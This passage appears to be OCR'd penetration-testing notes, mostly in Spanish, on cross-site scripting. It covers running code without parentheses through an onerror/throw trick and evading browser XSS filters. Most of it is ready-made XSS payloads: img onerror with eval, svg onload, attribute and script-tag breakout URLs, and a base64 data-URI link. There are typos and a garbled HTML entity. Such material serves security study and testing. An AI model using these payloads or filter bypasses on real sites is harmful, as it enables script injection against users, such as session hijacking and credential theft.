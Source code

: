 * Estos métodos podrían ser útiles si puede inyectarse en un script o manejador de eventos.
* No olvides que cada uno de ellos devolverá una cadena, por lo que necesitas una ejecución \*\* sink\*\* para activar el código (IE: **eval**)

### Escaping Parentheses

* La técnica abusa del manejador onerror, asignar una función a llamar una vez que se ha generado un error utilizando el lanzamiento seguido de los argumentos a la función asignada al manejador de errores.

→ moreover: http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/

```js
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
# eval - function to invoke in case of error
# throw - generate the error
# alert... - parameters For the error function

onerror=alert;throw 1; // a simple version
# does not work in Firefox and IE
```

Y dado que se cita la sección de argumentos, es posible hacer alguna codificación como la siguiente:

```js
<img src=x onerror="window.onerror=eval;throw'\u003d&#x006C;ert&#x0028;18#41;'"/>
```

## Bypassing Browser Filters

No cubren todos los posibles escenarios de attacl XSS y se centran en el tipo Reflected de XSS.

### UnFiltered Scenarios - Injecting Inside HTML Tag

```js
<svg/onload=alert(1)> # its detected by all main filters
```

```js
# Just by removing the final (>) we jave a bypass For browsers with XSSAuditor
<svg/onload=alert(1) // works chromium based browser
```

Inyectando dentro de los atributos de etiqueta HTML:

```js
site.com/inject?x=giuseppe"><svg/onload=alert(1)>
```

Podemos eludir a WebKit con:

```js
site.com/inject?x=giuseppe"><a/href="data:text/html;base64,<base64 payload>">clickhere<!--
```

Inyecting Inside SCRIPT Tag:

```js
site.com/inject?name=belucci";alert(1);//
```
